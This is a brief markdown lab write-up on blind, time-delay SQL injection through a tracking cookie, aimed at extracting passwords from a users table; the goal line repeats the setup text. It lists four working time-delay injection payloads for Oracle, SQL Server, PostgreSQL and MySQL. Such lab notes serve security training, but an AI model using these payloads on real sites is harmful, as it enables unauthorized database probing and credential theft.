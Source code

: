 # Lab: Blind SQL injection with time delays and information retrieval
- lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie
- The database contains a different table called users, with columns called username and password
# Goal
- The database contains a different table called users, with columns called username and password
# Solving The Lab
- first thing is to check if the parameter is vulnurable we do that by checking with differnt db time delay function
```
' || (dbms_pipe.receive_message(('a'),10))--   Oracle
' || (WAITFOR DELAY '0:0:10')--                microsoft
' || (SELECT pg_sleep(10))--                   PostgreSQL
' || (SELECT SLEEP(10))--                      MySQL
```

